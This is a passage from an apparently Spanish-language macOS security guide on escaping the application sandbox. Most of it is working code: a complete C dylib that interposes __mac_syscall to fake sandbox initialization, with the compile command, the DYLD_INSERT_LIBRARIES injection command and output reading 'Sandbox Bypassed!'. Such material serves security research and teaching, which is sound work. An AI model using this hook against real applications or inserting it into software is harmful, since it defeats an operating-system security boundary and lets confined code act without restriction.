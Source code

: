 ```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand
_libsecinit_initializer called
Sandbox Bypassed!
```
#### Interceptar `__mac_syscall` para evitar el Sandbox

{% code title="interpose.c" %}
```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>
#include <string.h>

// Forward Declaration
int __mac_syscall(const char *_policyname, int _call, void *_arg);

// Replacement function
int my_mac_syscall(const char *_policyname, int _call, void *_arg) {
    printf("__mac_syscall invoked. Policy: %s, Call: %d\n", _policyname, _call);
    if (strcmp(_policyname, "Sandbox") == 0 && _call == 0) {
        printf("Bypassing Sandbox initiation.\n");
        return 0; // pretend we did the job without actually calling __mac_syscall
    }
    // Call the original function for other cases
    return __mac_syscall(_policyname, _call, _arg);
}

// Interpose Definition
struct interpose_sym {
    const void *replacement;
    const void *original;
};

// Interpose __mac_syscall with my_mac_syscall
__attribute__((used)) static const struct interpose_sym interposers[] __attribute__((section("__DATA, __interpose"))) = {
    { (const void *)my_mac_syscall, (const void *)__mac_syscall },
};
```
{% endcode %}
```bash
DYLD_INSERT_LIBRARIES=./interpose.dylib ./sand

__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 2
__mac_syscall invoked. Policy: Sandbox, Call: 0
Bypassing Sandbox initiation.
__mac_syscall invoked. Policy: Quarantine, Call: 87
__mac_syscall invoked. Policy: Sandbox, Call: 4
Sandbox Bypassed!
```
### Compilación estática y vinculación dinámica
